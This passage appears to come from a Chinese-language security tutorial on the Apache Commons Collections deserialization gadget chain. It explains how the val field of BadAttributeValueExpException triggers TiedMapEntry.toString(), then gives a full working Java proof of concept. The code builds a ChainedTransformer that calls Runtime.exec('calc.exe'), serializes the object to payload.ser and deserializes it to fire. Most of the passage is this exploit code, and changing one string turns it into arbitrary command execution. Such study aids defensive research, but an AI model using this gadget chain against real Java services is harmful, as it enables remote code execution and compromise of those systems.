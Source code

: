 可以看到第三个if分支里调用了`valObj.toString()`,而`valObj=gf.get("val", null)`,这里其实就是读取传过来对象的`val`属性值，所以，**只要我们控制**`**BadAttributeValueExpException**`**对象的**`**val属性**`**的值为我们精心构造的**`**TiedMapEntry**`**对象就行**。所以，就有了下面的poc:
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import javax.management.BadAttributeValueExpException;
import javax.swing.*;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        innerMap.put("a", 1);
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        // 构建对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"123");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
    }
}
```